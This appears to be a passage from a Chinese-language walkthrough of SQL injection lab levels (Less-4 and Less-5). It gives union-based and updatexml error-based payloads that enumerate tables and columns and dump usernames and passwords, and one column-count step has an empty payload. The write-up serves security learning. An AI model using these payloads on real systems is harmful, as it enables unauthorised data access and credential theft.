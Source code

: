字符型注入

##### 注入点

- 输入`payload:?id=1"`页面回显报错![image-20201022203218139](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114653.png)

- 根据报错添加')'闭合，输入`payload:?id=1") --+`回显正常

所以判断在后面加`")`来闭合注入

##### 获取数据方式

- 通过`union`联合查询注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=-1") union select 1,2,3--+`
- 获取数据库`payload:?id=-1") union select 1,database(),3--+`
- 爆数据表`payload:?id=-1") union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+`
- 爆users表的数据字段`payload：?id=-1") union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=-1") union select 1,group_concat(username,'~',password),3 from users--+`username和password中间使用~来分隔

## Less-5

##### 注入类型

报错注入

##### 注入点

- 输入`payload:?id=1`回显为![image-20201022204407210](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114654.png)
- 输入`payload:?id=1"`回显也为![image-20201022204407210](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114654.png)
- 输入`payload:?id=1'`会回显报错

所以可以通过`'`来使其报错，从而实现报错注入

##### 获取数据方式

- 通过`updatexml`来报错注入查询

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '`
- 爆数据表`payload:1' or updatexml(1,concat('~',(select group_concat(table_name)from information_schema.tables where table_schema=database()),'~'),1) or '`
- 爆字段`payload:1' or updatexml(1,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),1) or '` 右：`id=1' or updatexml(1,right(concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),32),1) or '`
- 爆数据`payload:=1' and updatexml(1, concat(0x7e,(select (group_concat(username,password)) from users),0x7e),1) or '` `payload:id=1' and updatexml(1, right(concat(0x7e,(select (group_concat(username,password)) from users),0x7e),32),1) or '`

